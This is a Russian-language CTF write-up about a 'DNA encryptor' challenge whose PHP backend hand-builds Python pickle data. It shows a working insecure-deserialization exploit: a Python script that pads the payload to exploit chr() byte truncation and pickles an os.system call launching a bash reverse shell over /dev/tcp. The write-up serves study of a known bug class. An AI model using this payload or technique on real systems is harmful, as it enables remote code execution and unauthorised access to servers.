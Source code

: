 # Шифрователь ДНК

Проанализировав исходный код, видим самописную сериализацию для Python:

```php
$router->post('/', function (\Illuminate\Http\Request $request) {
    function pickle_dumps($array) {
        $pickle = "";
        foreach ($array as $str) {
            $pickle .= "\x8C" . chr(strlen($str)) . $str . "\x94";
        }
        $pickle = "\x5D\x94\x28" . $pickle . "\x65";
        $pickle = "\x80\x04\x95" . pack("Q", strlen($pickle)) . $pickle . "\x2E";
        return $pickle;
    }
    $conversion_type = $request->input('conversion_type');
    $array = $request->input('data');
    var_dump($array);
    $pickle = pickle_dumps($array);
```

Если данные тщательно не валидируются (а еще хуже берутся прямо у пользователя) возникает большая проблема. Десериализация специально сконструированного пэйлоада в питоне может привести к [исполнению произвольного кода](https://github.com/CalfCrusher/Python-Pickle-RCE-Exploit).

Наш случай несколько сложнее, ведь код выше сериализует массив в питоновский список строк, поэтому нужно передать такую строку, чтобы на выходе получить валидные данные, которые сможет скушать *pickle*.

Заметим одну важную деталь - `chr` возвращает символ из последнего байта числа, т.е. если передать ему 0x101, он вернет \x01. Теперь можно подготовить payload:

```python
from pickle import dumps
from base64 import b64encode

class evil(object):
    def __reduce__(self):
        import os
        return (os.system, (cmd,))

cmd = 'bash -c "bash -i >& /dev/tcp/ip/port 0>&1"'

payload = dumps(evil()) + b'\x8c\x01a'
n = 0x101 - len(payload) - 4
payload = b'a\x94\x8c' + bytes([n]) + b'a' * n + payload

print(b64encode(payload))
```

Таким образом длина payload'а = 0x101

- закрытие строки длиной 1 +
- padding строка (которая увеличивает длину payload'а) +
- RCE объект +
- открытие строки длиной 1

Зашлем наш payload на сервер и получим шелл:

![Конвертируем Base64 в URL](base64_encode_to_url.png)

![Засылаем payload](response.png)

